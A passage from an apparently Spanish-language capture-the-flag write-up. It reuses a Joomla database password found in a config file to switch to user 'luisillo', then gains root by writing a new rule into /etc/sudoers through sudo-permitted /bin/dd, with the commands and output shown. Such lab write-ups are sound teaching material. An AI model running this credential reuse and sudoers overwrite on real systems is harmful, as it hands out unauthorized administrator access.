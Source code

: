 ```bash
$db_user = 'luisillo';
$db_pass = 'lui******************';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

Tratamos de conectarnos como `luisillo` con las credenciales recién obtenidas, y vemos que son correctas:

```bash
www-data@f558d5db82a1:/home$ su luisillo
Password: 
luisillo@f558d5db82a1:/home$ whoami
luisillo
```

## escalada de privilegios

Al ir a revisar los permisos SUDO, vemos que podemos ejecutar la utilidad `/bin/dd` como cualquier usuario:

```bash
luisillo@f558d5db82a1:/home$ sudo -l
Matching Defaults entries for luisillo on f558d5db82a1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on f558d5db82a1:
    (ALL) NOPASSWD: /bin/dd
```

Encontramos en [GTFOBins](https://gtfobins.github.io/gtfobins/dd/#sudo) que podemos aprovecharnos de esta herramienta para escribir en cualquier fichero:

![Desktop View](/20251027201132.webp){: width="972" height="589" .shadow}

Por ello, para poder conectarnos como `root`, agregamos al usuario `luisillo` al fichero `/etc/sudoers`, ya que de esta manera podremos ejecutar cualquier comando con privilegios de administrador:

```bash
luisillo@f558d5db82a1:/home$ echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=/etc/sudoers
0+1 records in
0+1 records out
27 bytes copied, 0.0001833 s, 147 kB/s
luisillo@f558d5db82a1:/home$ sudo -l
[sudo] password for luisillo: 
User luisillo may run the following commands on f558d5db82a1:
    (ALL : ALL) ALL
luisillo@f558d5db82a1:/home$ sudo su
root@f558d5db82a1:/home# whoami
root
```
